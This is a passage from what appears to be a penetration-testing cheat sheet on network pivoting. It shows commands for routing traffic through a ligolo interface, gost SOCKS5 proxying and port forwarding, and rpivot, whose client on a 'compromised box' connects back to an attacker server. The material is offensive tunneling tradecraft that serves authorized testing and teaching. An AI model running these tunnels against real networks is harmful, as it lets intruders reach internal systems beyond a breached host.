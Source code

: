 4. Adding a new IP route to the second network. Before being able to use our local tools to the second network that we want to pivot to, we need to add a new IP route for it through the `ligolo` interface that we created in the first step.

    ```ps1
    ip route add 172.16.10.0/24 dev ligolo
    ```

5. Using local tools.

* After the tunneling has been initiated, we can use local offensive tools to the second network as well.

### Triple, etc. Pivot

* The process is exactly the same as the second pivot.

### Pivoting to individual hosts to expose internally running services

* The same process can also be used to pivot to individual hosts instead of whole subnets. This will allow an operator to expose locally running services in the compromised server, similar to the dynamic port forwarding through SSH.

## Gost

> Wiki English : <https://docs.ginuerzh.xyz/gost/en/>

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 Proxy
Server side: gost -L=socks5://:1080
Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true

# Local Port Forward
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy
